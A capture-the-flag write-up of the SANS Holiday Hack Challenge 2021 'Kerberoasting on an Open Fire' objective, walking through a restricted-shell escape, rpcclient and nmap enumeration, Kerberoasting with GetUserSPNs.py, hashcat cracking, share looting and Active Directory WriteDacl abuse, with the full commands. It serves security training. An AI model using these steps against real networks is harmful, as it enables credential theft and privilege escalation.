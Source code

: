 # OBJECTIVE 8 - Kerberoasting on an Open Fire #

## OBJECTIVE : ##
>Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints..

#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 8</summary>
  
>-	Check out [Chris Davis' talk](https://www.youtube.com/watch?v=iMh8FTzepU4) and [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) on Kerberoasting and Active Directory permissions abuse.
>-	Learn about [Kerberoasting](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) to leverage domain credentials to get usernames and crackable hashes for service accounts.
>-	There will be some `10.X.X.X` networks in your routing tables that may be interesting. Also, consider adding `-PS22,445` to your `nmap` scans to "fix" default probing for unprivileged scans.
>-	[OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
>-	[CeWL](https://github.com/digininja/CeWL) can generate some great wordlists from website, but it will ignore digits in terms by default.
>-	Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
>-	Investigating Active Directory errors is harder without [Bloodhound](https://github.com/BloodHoundAD/BloodHound), but there are [native](https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell) [methods](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).

</details>

#  

## PROCEDURE : ##

We start off this one by registering at the [elfu registration portal](https://register.elfu.org/) and we are given a username, password and server address and instructed to `ssh` to it on port `2222`.  We are then met by a menu screen which only accepts `1` or `e` as keyboard inputs.  `1` brings up a list of grades and `e` exits the program any other keypress doesn’t appear to do anything.

After hours and hours and hours of trying different combinations, I discovered that `Ctrl+D` exits to a Python prompt – well I wish I’d tried that earlier!

From the Python prompt I was able to run the following commands to exit to a bash prompt:
```
>>> import subprocess
>>> out, err = subprocess.Popen(['bash', '-l'], env={}).communicate()
```

Now that I’ve broken out into a bash prompt,  I looked around (following the suggestions in the hint) and noticed that the routing table includes routes to another three networks; `10.128.1.0/24`, `10.128.2.0/24` and `10.128.3.0/24`.  The `172.17.0.0/16` network is the one we’re on.
I also have a look at the ARP table and find four hosts on it which are on the same network as I am.  I ran a `nmap` scan towards each of these four IPs and `172.17.0.4` attracted my attention due to the number of open ports it had including LDAP, SMB and RPC.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/2a1040a6-442e-4343-ae6b-fc3c5422c845)

Using `rpcclient`, I was able to connect to `172.17.0.4` with the same credentials provided by the Elf-U registration page
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/535ce633-9add-4d14-b6b0-736254065460)

At this point I Googled some ways of enumerating a server using `rpcclient` and I was able to get some interesting information.

By running ``rpcclient $> enumdomusers`` we get a list of users on the domain which include a number of particularly interesting ones:
-  ``user: [test] rid:[0x60f]``
- ``user:[Administrator] rid: [0x1f4]``
-  ``user:[admin] rid:[0x3e8]``
- ``user:[elfu_admin] rid[0x450]``
-  ``user:[elfu_svc] rid:[0x451]``
-  ``user:[remote_elf] rid:[0x452]``

I could also run ``rpcclient $> enumdomgroups`` to get a list of domain groups
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3874ac46-5c04-4431-a253-5001eb455c5f)

and ``rpcclient $> get dompwinfo`` to find out what kind of password requirements are enforced on the domain.  From this I learned that the domain requires a **minimum password length of 7 characters**.  Something tells me this might be useful later on in this challenge...

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/72cfd07c-b4f6-4a24-b1da-0e1f2be9a068)

Running `nmap` towards the `10.x.x.x` networks with the `-PS22,445` switch as suggested in the hint gives us two hosts that are particularly interesting: `10.128.3.30` and `10.128.1.53`.  The latter’s hostname is `hhc21-windows-dc.c.holidayhack2021.internal` and by connecting to it using `rpcclient` and running ``rpcclient $> querydominfo``, I confirmed that the Server’s role is `ROLE_DOMAIN_PDC` – presumably that stands for **P**rimary **D**omain **C**ontroller.  Similarly, I was able to determine that `10.128.3.30` is the BDC – **B**ackup **D**omain **C**ontroller.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/13e71f00-3f20-4403-b767-931b5fc6f2e8)

Now that I found the domain controller, I should be able to use [Kerbroasting](https://attack.mitre.org/techniques/T1558/003/) to get a password hash.  I start by uploading the script `GetUserSPNs.py`[^1]  using `scp`:
```
> Scp -P 2222 GetUserSPNs.py username@grades.elfu.org:
```

I can now run the script on the `grades.elfu.org` machine which is directly connected to the ELFU domain and I can use my own credentials for this:
```
$ Python3 GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 elfu.local/username:'Password!' -request
```

Once the script ran, I got a text file; `spns.txt` which contains a hash for user `elfu_svc` and I could copy this back to my  local machine using `scp` once again:
```
> Scp -P 2222 username@grades.elfu.org:/home/username/spns.txt spns.txt
```

For the next step I need to crack the hash using [Hashcat](https://hashcat.net/hashcat/).  For this I’ll need a suitable wordlist and a mangling ruleset.  The hints suggest using `Cewl` to generate the wordlist and `OneRuleToRuleThemAll.rule`[^2]  as a mangling rule.  From the enumeration I did earlier on the domain connected machines, I know that the domain password rules expect a password with a minimum length of 7 characters.  So, I can use `cewl` to scrape `https://register.elfu.org/register` for words of suitable length.  I also include the `–with-numbers` switch as recommended by the hints (by looking at the page source we see the names of karaoke groups which look a bit like potential passwords and include numbers in them).
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/4a478247-50e0-46d3-84ad-045b65308d12)
```
$ cewl -m 7 -w custom_wordlist.txt –with-numbers https://register.elfu.org/register
```

Now I run `hashcat` with the generated wordlist:
```
$ hashcat -m 13100 -a 0 spns.txt –potfile-disable -r OneRuleToRuleThemAll.rule –force -O -w 4 –opencl-device-types 1,2 custom_wordlist.txt
```

Once hashcat finishes cracking the hash I find out that the user `elfu_svc` has password `Snow2021!` 😊

I can use these new credentials now to connect to the BDC server and see what shares are available on it:
```
$ rpcclient -U elfu_svc 10.128.3.30 -c netshareenum
```
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/91857eb5-5daa-4782-8e4e-2bf93b9ca39d)

I see that there are 4 shares available; `netlogon`, `sysvol`, `elfu_svc_shr` and `research_dep`.
I can access all of these apart from `research_dep`.   On the other hand, `elfu_svc_shr` is the only share I have access to that has any files on it.  
I can access this share and download all the files in a tar archive:
```
$ smbclient -U elfu_svc //10.128.3.30/elfu_svc_shr
smb: \> tar c all.tar
```

Now I can untar the file and search through the contents[^3]:
```
$ tar -xvf all.tar
$ grep -l remote_elf   
```

This pointed me to a PowerShell script file called `GetProcessInfo.ps1` (can’t believe it’s actually the exact same filename as in the tutorial video) which includes some kind of hash of `remote_elf`‘s password.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/a529a93a-250b-4fb0-9f1b-709b5dc708dc)

Looking through the script I can see that is actually using `remote_elf`’s credentials to connect to the DC and get the running processes.  I can therefore edit the same script using the hints provided [here](https://github.com/chrisjd20/hhc21_powershell_snippets#added-bonus-here-is-how-you-can-enter-pssession-into-a-remote-computer) to allow me to establish a PowerShell Session.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/e028cee7-b23c-4fb8-9a58-f6f2cd0ed613)

Now I hope (or expect, given the hints in this challenge so far) that `remote_elf` has been given `WriteDacl` rights to a group that is of interest to us.  After some trial-and-error I find that `remote_elf` does indeed have `WriteDacl` enabled for the group `Research Department`.  This is verified by running the following at the powershell prompt:
```
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

And here we see that WriteDacl is enabled for `remote_elf`... excellent!
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/1a6df0c0-4ff4-48e2-9701-f30363b6f70f)

So now I can use `remote_elf`’s privileges to give `Generic All` access to our username provided by the `register.elfu.org` system.  For this I can use [this script](https://github.com/chrisjd20/hhc21_powershell_snippets#in-the-below-example-the-genericall-permission-for-the-chrisd-user-to-the-domain-admins-group-if-the-user-your-running-it-under-has-the-writedacl-permission-on-the-domain-admins-group).  The script runs with a number of errors, but when I [check permissions](https://github.com/chrisjd20/hhc21_powershell_snippets#you-can-read-the-dacl-of-an-ad-group-object-using) again I see that my user now has `GenericAll` rights.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3bb62529-b447-4609-b9a6-77cdde7b2606)

This means that I should now be able to add myself to the `ResearchDepartment` group.  To do this I run [this script](https://github.com/chrisjd20/hhc21_powershell_snippets#in-the-below-example-the-genericall-permission-for-the-chrisd-user-to-the-domain-admins-group-if-the-user-your-running-it-under-has-the-writedacl-permission-on-the-domain-admins-group ) and I can now verify that my user; `fmcygawtjd` has indeed been added to the `ResearchDepartment` group.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/d94a8ea3-df2a-40b3-af4d-873fad5f01fa)

Now I am able to access `//10.128.3.30/research_dep` with my own username and password and there I (**FINALLY**) find a nice file waiting for me: [`SantaSecretToAWonderfulHolidaySeason.pdf`](Assets/SantasSecretToAWonderfulHolidaySeason.pdf).  It would have been nice if it had been a simple txt file I guess – but anyway – I can use `scp` to transfer the file to my PC. 

But `scp` gives me a *“TERM Environment Variable Not Set”* Error and helpfully suggests I use a bash shell on the remote pc.  So I switch to bash by running ``$ chsh -s /bin/bash`` then exiting back to the python prompt and calling up the bash prompt once again.  Now I was able to `scp` the document to my PC and open the pdf to find the Santa’s ingredient at the top of the list.

This was one super challenging Objective!  So many of the elements were completely new to me; rpcclient enumeration, working with AD, working with PowerShell, etc.. not to mention Kerberoasting!  But this is what keeps bringing me back to the HolidayHack Challenge year after year – the challenges are all challenging but achievable and it’s a great feeling when I get to accomplish each one 😊  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/413e9a0a-61b1-4d36-9ef1-dc0e414c4adb)



[^1]:[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py )
[^2]:[https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)
[^3]:I finally looked for `remote_elf` after trying a whole bunch of other keywords and then decided to start looking for some of the usernames I had enumerated earlier.
